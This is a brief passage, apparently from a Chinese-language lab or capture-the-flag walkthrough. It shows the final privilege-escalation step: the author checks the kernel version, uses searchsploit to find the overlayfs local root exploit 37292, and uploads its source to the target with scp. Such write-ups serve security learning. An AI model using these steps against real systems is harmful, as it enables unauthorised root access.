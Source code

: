 最后一关是提权，首先`uname -a`查看内核
![](https://img-blog.csdnimg.cn/20200816000425704.png#pic_center)
发现是3.13.0，尝试利用overlayfs提权
```cmd
searchsploit overlayfs
searchsploit -p 37292
cp /usr/share/exploitdb/exploits/linux/local/37292.c ~
```
![](https://img-blog.csdnimg.cn/20200816001749564.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)
使用scp上传到靶机`scp ./37292.c itsskv@192.168.153.139:/tmp`
